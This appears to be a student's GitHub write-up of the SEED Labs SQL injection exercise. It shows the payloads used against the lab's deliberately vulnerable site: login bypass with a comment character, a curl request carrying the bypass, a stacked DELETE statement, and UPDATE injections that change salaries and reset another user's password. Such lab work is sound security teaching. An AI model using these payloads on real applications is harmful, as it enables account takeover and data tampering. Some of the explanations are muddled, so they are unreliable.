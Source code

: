 # seedlab-SQL-Injection-Attacks


### Task 1:

Log in MYSQL:


      mysql -u root -pseedubuntu
		
      mysql> use Users;
		
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/1.PNG)

      mysql> show tables;
     
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/2.PNG)



Use such a SQL query:

      select * from credential where Name='Alice';


![alt tag](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/6.PNG)




### Task 2:
##### Task 2.1
	
- USERNAME: "Admin' #"
	
- PASSWORD: "" (here is password is optional)


![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/7.PNG)

We will result in SQL Query


      SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		  
      FROM credential
		  
      WHERE name='Admin' #' && password=''


##### Task 2.2
1- Write Code on Terminator in Seed Lab:
    
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	
2- Copy the HTML code.

3- Make a new file in location "file:///home/seed/Documents/temp.html"

4. Run this location on browser



![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/8.PNG)

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/9.PNG)

##### Task 2.3:
inject statment to append a row to current database:

    	'1=1; DELETE from credential where name='Alice';
	
After running query, go to browser and input as:
	
  
  - USERNAME: "'1=1; DELETE from credential where name='Alice';"
	
  
  - PASSWORD: "" (blank field)




![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/13.PNG)


### Task 3
Run This  "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

##### Task 3.1
1- Login as Username= "Alice'#" && Password = "", 
	
2- Then edit the link to browser
  	http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	  
3- Update Phone Number as ', Salary=1000000 and save.


##### Task 3.2

1- Login as Username= 'Boby' #' and then open edit profile
	
2- Update Nick Name: ',Salary=0 and remaining unchanges

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/14.PNG)

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/15.PNG)
	
Login as Alice
	
Assume login as Boby and keep Alice login too. Open Alice profile edit
	
  
      Update Nick Name: ', Salary=1 where name='Boby' #

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/16.PNG)
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/18.PNG)
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/19.PNG)

##### Task 3.3:	
We're login as Boby but change password of Alice

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/16.PNG)

Than enter http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php

Assume we want to change ```Boby``` password as ```Annie123```. First, we should get SHA1 value of our new password via Terminal using Command
```
  echo "Annie123"|sha1sum
 ```
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/21.PNG)

Than Modify Nick Name as ', password='2672275fe0c456fb671e4f417fb2f9892c7573ba' where name='Boby' # and save.
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/22.PNG)

Now login information of "Boby" 
- USERNAME : Boby
- PASSWORD : Annie123
